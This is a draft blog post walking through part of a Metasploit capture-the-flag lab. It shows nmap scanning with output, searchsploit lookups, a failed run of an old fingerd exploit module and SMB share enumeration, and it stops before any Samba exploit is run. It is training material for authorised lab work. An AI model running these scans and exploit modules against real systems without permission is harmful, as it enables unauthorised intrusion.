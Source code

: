 +++
author = "Nick"
date = 2019-12-31T19:36:14Z
description = ""
draft = true
slug = "attacked-defense-metasploit-ctf-4"
title = "Attacked | Defense - Metasploit CTF 4"

+++


Welcome back to the third entry in this series. In the last entry we used two `Metasploit` modules to obtain `Tomcat` credentials and leverage them with an authenticated RCE.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

{{< figure src="__GHOST_URL__/content/images/2020/01/PA_MCTF_1.png" >}}

## Enumeration
Like the previous CTF's we've done. We now know that we'll start every CTF off with an `nmap` scan.

Command:
`nmap -sC -sV -T5 -p- 192.213.205.1/24`

We see a new flag added to our `nmap` scan. We've added `-sC` for use default scripts. This will use some of the default scripts that are packaged with `nmap` to help further enumerate services.

With these CTF's, and most CTF's in general, we know what our target's IP's will be but we want to maintain the practice of enumerating the entire network.

Here are our `nmap` scan results:
```
Nmap scan report for target-1 (192.213.205.3)
Host is up (0.000035s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE     VERSION
79/tcp  open  finger      Linux fingerd
|_finger: No one logged on.\x0D
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: METASPLOIT CTF)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: METASPLOIT CTF)
MAC Address: 02:42:C0:D5:CD:03 (Unknown)
Service Info: Host: METASPLOIT-CTF; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: METASPLOIT-CTF, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: victim-1
|   NetBIOS computer name: METASPLOIT-CTF\x00
|   Domain name: \x00
|   FQDN: victim-1
|_  System time: 2020-01-01T19:42:07+00:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-01-01 19:42:07
|_  start_date: N/A

Nmap scan report for target-2 (192.213.205.4)
Host is up (0.000035s latency).
All 65535 scanned ports on target-2 (192.213.205.4) are closed
MAC Address: 02:42:C0:D5:CD:04 (Unknown)
```

We now have some ports that we've not seen yet. `Target-1` has ports 79, 139, 445. `Target-2` has no ports available. 

Our first `searchsploit` will be for the `fingerd` service.

Command:
`searchsploit fingerd`

We get back a few results, one of which seems to be a `Metasploit` module:

{{< figure src="__GHOST_URL__/content/images/2020/01/searchsploit_fingerd.png" >}}

We will try this module first, if it fails we'll move onto the next service, `SMB`.

We load up the `Metasploit` console.

Command:
`msfdb run` or `msfconsole`

Once we are loaded in we `search` for the module we want to use.

Command:
`msf5> search fingerd`

{{< figure src="__GHOST_URL__/content/images/2020/01/metasploit_fingered.png" >}}

This is a VERY old exploit and not for our target system, but worth a shot anyway since it takes very little time to try it. We select the module for use.

Command:
`msf5> use 1` or `msf5> use exploit/bsd/finger/morris_fingerd_bof`

Inside the module we `show` our `options`. We only have one to set, `rhost`

Command:
`msf5> set rhosts target-1`

We then run our exploit:

`msf5> run` or `msf5> exploit`

The exploit runs but nothing happens. No surprise there! Before we `searchsploit` for `SMB` modules, first we'll want to see if we can list any `SMB` shares on `target-1`. There are a few tools to do this: `smbmap`, `smbclient` and `Metasploit` has a 'few' modules to enumerate as well. Since this is a `Metasploit` oriented CTF, let's use those.

Using the `search` in `Metasploit` for `SMB` will come back with a lot of results. We are after mostly the auxilary modules. These are mostly scanning and enumeration modules.

{{< figure src="__GHOST_URL__/content/images/2020/01/metasploit_smb.png" >}}

We are interested in the `auxilary/scanner/smb/smb_enumshares`. This will show us if there are any open shares we are free to connect to with or without authentication.

Command:
`msf5> use 54` or `msf5> use auxiliary/scanner/smb/smb_enumshares`

Once the module is loaded we `show` our `options`.

{{< figure src="__GHOST_URL__/content/images/2020/01/show_smb_options.png" >}}

We have a few options. THe only one we want to set is `rhosts` currently.

Command:
`msf5> set rhosts target-1`

Then `run` the module.

Command:
`msf5> run` or `msf5> exploit`

In this case we had no share show up. Now that we know there are no shares to browse, we'll start looking for vulnerabilities in the service. We will `search` for `samba` exploits.

Command:
`msf5> search samba`

26 modules are returned. We are going to look at the ones that are for Linux since we know from our `nmap` scan that we have Ubuntu running on the target.

{{< figure src="__GHOST_URL__/content/images/2020/01/search_samba.png" >}}



